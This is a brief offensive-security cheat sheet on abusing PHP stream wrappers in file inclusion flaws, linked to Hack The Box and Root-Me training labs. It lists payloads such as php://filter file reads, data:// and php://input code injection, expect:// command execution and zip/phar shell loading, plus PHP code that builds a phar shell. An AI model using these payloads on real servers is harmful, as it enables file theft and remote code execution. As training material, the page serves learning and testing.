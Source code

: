 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![php_filters](../../../../../_badges/rootme/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file`

To **inject** some code (encoded as base64): 

* `data://text/plain;base64,<base64 php code here>`
* `allow_url_include` must be enabled

To **inject** some code (as POST data), use `php://input` and:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>
If expect is installed, we can use it to run commands:

* `expect://id`: run the `id` command
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

```php!
<?php // php --define phar.readonly=0 shell.php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
</div></div>
